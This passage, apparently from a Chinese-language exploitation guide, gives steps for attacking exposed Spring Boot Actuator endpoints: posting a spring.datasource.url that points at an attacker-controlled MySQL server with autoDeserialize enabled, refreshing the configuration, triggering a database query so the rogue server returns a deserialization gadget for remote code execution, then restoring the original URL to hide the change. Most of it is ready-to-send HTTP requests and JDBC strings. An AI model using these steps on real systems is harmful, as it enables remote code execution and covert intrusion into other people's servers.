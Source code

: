 mysql-connector-java 5.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

mysql-connector-java 8.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}
```

**步骤四：刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```

**步骤五：触发数据库查询**

尝试访问网站已知的数据库查询的接口，例如： `/product/list` ，或者寻找其他方式，主动触发源网站进行数据库查询，然后漏洞会被触发

**步骤六：恢复正常 jdbc url**

反序列化漏洞利用完成后，使用 **步骤三** 的方法恢复 **步骤一** 中记录的 `spring.datasource.url` 的原始 `value` 值

**漏洞原理：**

1. spring.datasource.url 属性被设置为外部恶意 mysql jdbc url 地址
2. refresh 刷新后设置了一个新的 spring.datasource.url 属性值
3. 当网站进行数据库查询等操作时，会尝试使用恶意 mysql jdbc url 建立新的数据库连接
4. 然后恶意 mysql server 就会在建立连接的合适阶段返回反序列化 payload 数据
5. 目标依赖的 mysql-connector-java 就会反序列化设置好的 gadget，造成 RCE 漏洞
